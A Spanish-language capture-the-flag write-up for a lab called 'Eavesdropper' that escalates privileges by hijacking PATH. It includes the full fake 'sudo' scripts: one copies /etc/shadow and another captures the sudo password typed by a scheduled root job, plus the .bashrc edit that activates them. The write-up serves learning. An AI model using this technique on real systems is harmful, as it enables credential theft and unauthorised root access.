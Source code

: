 # Eavesdropper

En el laboratorio, se nos proporciona acceso inicial a un usuario llamado `frank` y un archivo `id_rsa`, lo que nos permite ingresar al SSH utilizando el siguiente comando:

```
ssh -i id_rsa frank@<ip>
```

<figure><img src="../.gitbook/assets/Eavesdropper/ssh.png" alt=""><figcaption></figcaption></figure>

Después de enumerar la máquina, no encontramos nada interesante, ni siquiera al buscar los `backups` que se suponía que tenía. Sin embargo, al utilizar `pspy64`, descubrimos algunos procesos que se repetían y parecían estar programados.

<figure><img src="../.gitbook/assets/Eavesdropper/pspy.png" alt=""><figcaption></figcaption></figure>

El proceso que nos interesa es `sudo cat /etc/shadow`, ya que se supone que tenemos permisos de `root` con `sudo`, pero no contamos con la contraseña. Además, los `exploits` de `kernel` y `sudo` requieren librerías que nos faltan, por lo que no podemos ejecutarlos.

<figure><img src="../.gitbook/assets/Eavesdropper/sudo.png" alt=""><figcaption></figcaption></figure>

Sin embargo, como se observa a continuación, cuando intentamos ejecutar un comando con `sudo`, se nos solicita la contraseña. Si esto nos ocurre a nosotros, también puede sucederle al proceso que se ejecuta con `sudo`.

<figure><img src="../.gitbook/assets/Eavesdropper/sudo-l.png" alt=""><figcaption></figcaption></figure>

Por lo tanto, nuestro vector de ataque sería apropiarnos y redirigir el proceso de `sudo` a uno que creemos. Para ello, podemos utilizar `$PATH`, donde primero colocaremos nuestro propio proceso de `sudo`. Sigamos los pasos para hacerlo.

1. En la carpeta a la que tenemos acceso, creamos un directorio llamado `bin` y dentro de este, un archivo llamado `sudo`.

```
mkdir bin && cd bin

vim sudo
```

> *Nota: Al cerrar, debes otorgar permisos de ejecución al archivo `sudo` que creaste utilizando el comando `chmod +x bin/sudo`.*

2. En el archivo `sudo` que creamos, podemos insertar comandos que se ejecutarán. Puede ser cualquier comando; en este caso, intentamos extraer el archivo `shadow` para adivinar la contraseña utilizando `john`.

```
#!/bin/bash

cat /etc/shadow >> /home/frank/shadow.txt
```

	*Aunque logramos extraer el archivo `shadow`, no pudimos descifrarlo con `john`, por lo que decidimos intentar otra estrategia.*

<figure><img src="../.gitbook/assets/Eavesdropper/shadow.png" alt=""><figcaption></figcaption></figure>

3. Dado que al ejecutar `sudo` se solicita la contraseña, podemos aprovechar esto para que el proceso nos la proporcione. Guardamos la contraseña en una variable y, finalmente, la almacenamos en un directorio de `frank`. Con el siguiente código, podemos lograr este efecto.

```
#!/bin/bash

read -p 'Password: ' password

echo $password > /home/frank/password.txt
```

4. Por último, para que el proceso reconozca nuestra redirección de `PATH`, debemos modificarlo en el archivo `.bashrc`. Lo abrimos y añadimos la siguiente línea al principio del archivo.

```
vim .bashrc

export PATH=/home/frank/bin:$PATH
```

Con esto, esperamos un momento y obtendremos la contraseña para ejecutar `sudo`. 

<figure><img src="../.gitbook/assets/Eavesdropper/password.png" alt=""><figcaption></figcaption></figure>

Una vez que tengamos la contraseña, solo nos falta ejecutar `sudo` con el siguiente comando e ingresar la contraseña que obtuvimos.

```
/usr/bin/sudo su
```

De esta manera, obtenemos los permisos de `sudo` y el único archivo que nos solicita el laboratorio, `flag.txt`.

<figure><img src="../.gitbook/assets/Eavesdropper/flag.png" alt=""><figcaption></figcaption></figure>

-------

>*El tiempo que te gusta perder no es tiempo perdido.* ~ **Bertrand Russell**
>
>*Quiere enfatizar que el valor del tiempo no se mide únicamente por la productividad. Si una actividad te brinda placer, descanso o inspiración, ya es valiosa. Tanto el ocio creativo como el ocio convencional alimentan la mente y dan sentido a la vida.*
>
><figure><img src="../.gitbook/assets/Eavesdropper/touhtou.png" alt=""><figcaption></figcaption></figure>

